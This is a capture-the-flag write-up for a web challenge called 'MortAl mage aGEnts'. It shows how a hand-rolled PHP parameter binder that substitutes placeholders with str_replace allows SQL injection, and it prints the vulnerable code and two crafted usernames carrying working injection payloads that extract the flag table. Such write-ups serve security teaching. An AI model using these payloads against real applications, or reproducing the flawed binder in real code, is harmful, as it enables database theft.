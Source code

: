 # MortAl mage aGEnts (web, 19 solves, 315 pts)

> I want to make a crypto currency. For now, I made the secure wallet service.

> I give you the source code of its service. Can you hack this service? ☆（ゝω・）v 

> ※The database is initialized every hour.

The app's source tell us that the first flag is located in the database and we probably have to usq SQL-injection to get it:

```sql
CREATE TABLE flag1 (
    flag1 VARCHAR(255) NOT NULL
);

INSERT INTO flag1 (flag1) VALUES ('***CENSORED***'); -- Can't guess
```

The app is full of seemingly safe prepared statements:

```sql
$transactor = $app->db->fetch(
    'SELECT * FROM transactor WHERE code = :code',
    [':code' => $code]
);
```

But the implementation is buggy:

```php
public function query($sql, $param = array())
{
    $search = [];
    $replace = [];
    foreach ($param as $key => $value) {
        $search[] = $key;
        $replace[] = sprintf("'%s'", mysqli_real_escape_string($this->link, $value));
    }
    $sql = str_replace($search, $replace, $sql);
    ...
```

Precisely, if we have 2 different paremetrs and we name set the first one's value to the name of the second one, things will **break**

This is the part we'll be exploiting:

```php
$notes = sprintf('%s remitted', $_SESSION['user_id']);
...
$app->db->query(
    "INSERT INTO account (user_id, debit, credit, notes) VALUES (:user_id, 0, ${amount}, :notes)",
    [':user_id' => $dstUsers['user_id'], ':notes' => $notes]
);
```

This is a good query because we control pretty easily both arguments that get passed to the function.

If we know set our user id to `ABC:notesDEF`, the final query will look like:


```sql
INSERT INTO account (user_id, debit, credit, notes) VALUES ('ABC'ABC:notesDEF remitted'DEF', 0, ${amount}, 'ABC:notesDEF remitted')
```

So it's pretty clear we have a injection in the `ABC` part, we'll use it to get the flag:

We're gonna need 2 accounts:

first: `,1000000,100000000,(select(flag1)from(flag1)));#:notes`

second: `,1000000,100000000,(select(flag1)from(flag1)));#`

First one will trigger the sqli and create an account for the second user that contains the flag.

We'll use the second user just to read the flag which will show up in our dashboard.
